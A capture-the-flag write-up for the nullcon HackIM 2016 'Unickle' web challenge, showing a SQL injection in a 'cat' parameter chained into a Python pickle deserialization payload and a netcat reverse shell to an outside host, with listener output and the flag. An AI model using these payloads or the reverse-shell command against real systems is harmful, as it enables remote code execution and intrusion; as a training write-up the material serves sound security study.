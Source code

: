 # nullcon HackIM : Unickle

**Category:** Web
**Points:** 200
**Solves:** 
**Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!
> 
> 
> <http://54.84.124.93/>

[Server files](./var/www)

## Write-up

**by d1rt**

Immediately on visiting the target URL you're greeted with a list of "objects", each has an id.

`http://54.84.124.93/?cat=1`

The `cat` param is a sql injection opportunity

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,3,4--`

This injection leads to a Python error being printed on the final row of the output table in the 3rd field.

`1    2    'int' object has no attribute 'encode'  4`

This means we now control a payload that is being passed to Python for execution, based on the output of other fields and hints in intro, it's a Python object injection flaw.  Now we craft our injected object.

```
#!/usr/bin/python2

import pickle
import os

class Inject(object):
    def __reduce__(self):
        return (os.system, ('/bin/ls',))

print pickle.dumps(Inject())
```

Confirm it works

```
$ ./makepickle.py 
cposix
system
p0
(S'/bin/ls'
p1
tp2
Rp3
.
```

Not sqli friend, need to change out those new lines

```
$ ./makepickle.py | awk '{printf $1"%0a"}'
cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a
```

Now use it in the injection

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

We have a functional injection, but not the value we'd expected

`1    2   512  4`

We then use the injection to trigger a reverse shell using netcat

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/nc -e/bin/bash 1.3.3.7 31337'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

```
$nc -vvv -l -p 31337
Listening on any address 31337
Connection from 54.84.124.93:47281
find / -name 'flag'
/var/www/flag
cat /var/www/flag
flag{OSaaS_with_union_and_tickle_trend_it_is!}
```


## Other write-ups and resources

* <https://github.com/bl4de/ctf/blob/master/2016/HackIM_2016/Unicle_Web200/Unicle_Web200_writeup.md>
